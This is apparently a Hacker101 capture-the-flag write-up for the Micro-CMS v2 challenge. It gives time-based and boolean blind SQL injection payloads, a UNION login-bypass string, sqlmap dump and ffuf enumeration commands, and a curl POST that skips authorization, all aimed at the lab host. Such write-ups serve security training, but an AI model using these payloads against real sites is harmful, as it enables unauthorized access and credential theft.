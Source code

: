 # Micro-CMS v2 Write-up (Hacker101 CTF)
---
> [!TIP]
> If you are new to Capture-The-Flag challenges as I was when I began this series of challenges, for this challenge it will help to check out the [XSS and Authorization](https://www.hacker101.com/sessions/xss) session and the [SQL Injection and Friends](https://www.hacker101.com/sessions/sqli) session from the Hacker101 course material.
---
## Flag0
Initially, I could not figure out for the life of me what the table might be named that I would be looking for. I started by determining the *length of the table name*.
To determine the length of the database(# of characters), test various different numbers in place of '`X`'. If the length is *correct*, the `SLEEP` command will execute, and the response time of the page will demonstrate this:
```
2’ AND LENGTH(DATABASE())=X AND SLEEP(5)#
```
Very shortly thereafter, I abandoned my plan to manually determine the name in favour of a more automated method. I was able to determine the name of some tables in the database. Most significantly the name -- **`admins`**. The following was used in **sqlmap** in the terminal:
```
sqlmap -u 'https://<MACHINE_ID>.ctf.hacker101.com/login' --data "username=&password=" -dump
```

Now that I know the name of the table, I inject SQL into the **Username** field with a password *to force* copied into the **Password** field:
```
username=admin' UNION SELECT 'YourChosenPassword' AS password FROM admins WHERE '1' = '1
```

## Flag1
```HINTS
- What actions could you perform as a regular user on the last level, which you can't now?
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization
```

**Bypass Authentication using `curl` to send a `POST` request to the page authentication is required on:**
	`# curl -v -X POST https://<MACHINE_ID>.ctf.hacker101.com/page/edit/1`
	Returns  `HTTP/2 200` response code, and the flag.
 
## Flag2
```HINTS
- Credentials are secret, flags are secret. Coincidence?
```

With *secrets* in mind, I began by searching for any *secret pages* among numerically named pages:
```ZSH
$ seq 50 > range.txt
$ ffuf -w range.txt -u https://<MACHINE_ID>.ctf.hacker101.com/page/FUZZ

________________________________________________

 :: Method           : GET
 :: URL              : https://<MACHINE_ID>.ctf.hacker101.com/page/FUZZ
 :: Wordlist         : FUZZ: /Users/deyl64/range.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

2                       [Status: 200, Size: 469, Words: 67, Lines: 16, Duration: 290ms]
1                       [Status: 200, Size: 574, Words: 111, Lines: 15, Duration: 61ms]
3                       [Status: 403, Size: 213, Words: 23, Lines: 6, Duration: 5222ms]
:: Progress: [50/50] :: Job [1/1] :: 9 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```
There is now a page `3`, which was not evident before.  Page `1` and `2` were the default pages created in the past when making new pages.  Attempting to access page `3` shows that it is forbidden as authentication is needed.

##### Determining the Username
The username can be found by using `ffuf`:
	`ffuf -w $WORDLIST -u https://<MACHINE_ID>.ctf.hacker101.com/login\?username\=FUZZ  -X POST -v  -fr "Unknown user"`

##### Cracking Credentials with SQLMap
You can use the following command to find the credentials.
	`sqlmap -u "https://https://<MACHINE_ID>.ctf.hacker101.com/login" --data "username=abc&password=xyz" -p username --dbms=mysql --dump`

In this case, having designated the SQLi-vulnerable `username` parameter as the one to be tested (using `sqlmap`'s  `-p` option), the credentials are successfully cracked as shown by the output below:
```zsh
Database: level2
Table: admins
[1 entry]
+----+----------+------------+
| id | password | username   |
+----+----------+------------+
| 1  | chere    | georgianna |
+----+----------+------------+
```

##### Cracking the Credentials: Manual Method 
In order to determine what each character of *either* the `Username` or `Password` is, the following code can be used. The main idea is that you can use a comparison in the username and if it is true, you will get one error ("Invalid password") and if it is false you will get another ("unknown user"). So you can keep giving it comparisons and check the error result to find if it is true or not.

If the statement regarding the ASCII value of the character in the specific position is `TRUE`, the error `Invalid Password` will be displayed; however, if the statement is `FALSE`, the error `Unknown user` will be displayed:
	`username=' OR Ascii(substring(username,1,1)) > 115;- -password=`

```EXAMPLE
username=' OR 1=1;- -&password=
	This is true and therefore it passes the username check but fails the password check, resulting in "Invalid password"

username=' OR 1=2;- -&password=
	This is false and therefore fails the username check, resulting in "Unknown user".

Solving the username first:
username=' OR Ascii(substring(username,1,1)) > 109;- -  
password=
	(Ascii(substring(n,n)) returns the ascii character code of the nth character in the string)
	If the first letter of the username ascii code is greater than 109 (which is the letter 'm'), then the comparison will be true and it will tell me "Invalid password" as the error. Next, try:

username=' OR Ascii(substring(username,1,1)) > 115;- -  
password=
	If the character is not greater 115 (the letter 's') the comparison will be false and it will give the "Unknown user" error instead. Now I know the the letter is greater than 'm' and not greater than 's', therefore it is between 'n' and 's'. You continue these comparisons until you find the exact letter. Then you move onto the next character.

username=' OR Ascii(substring(username,2,2)) > 109;- -  
password=
	Now you're checking if the second character is greater than 109 ('m'). Once you find a character that equals 0, you know you have hit the end of the string.


REPEAT THE SAME PROCESS FOR THE PASSWORD:

username=' OR Ascii(substring(password,1,1)) > 109;- -  
password=

Burp Suite can be used for this manually, but you could write a script that did this faster using a binary search for each letter and just checking whether the response has "Invalid password" or "Unknown user" in it.
```
